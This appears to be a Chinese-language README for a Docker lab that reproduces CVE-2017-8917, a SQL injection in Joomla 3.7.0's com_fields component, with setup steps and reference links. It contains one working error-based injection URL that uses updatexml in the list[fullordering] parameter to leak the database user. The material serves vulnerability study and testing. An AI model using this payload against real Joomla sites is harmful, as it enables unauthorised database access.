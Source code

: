 # Joomla 3.7.0 (CVE-2017-8917) SQL注入漏洞环境

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

Joomla在3.7.0中新引入的一个组件“com_fields”，这个组件任何人都可以访问，无需登陆验证。com_fields组件由于对请求数据过滤不严导致了SQL注入。

参考链接：

- <https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html>
- <https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html>

## 测试环境

执行如下命令启动一个Joomla 3.7.0服务：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面和测试数据。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`，即可看到SQL报错信息：

![](1.png)
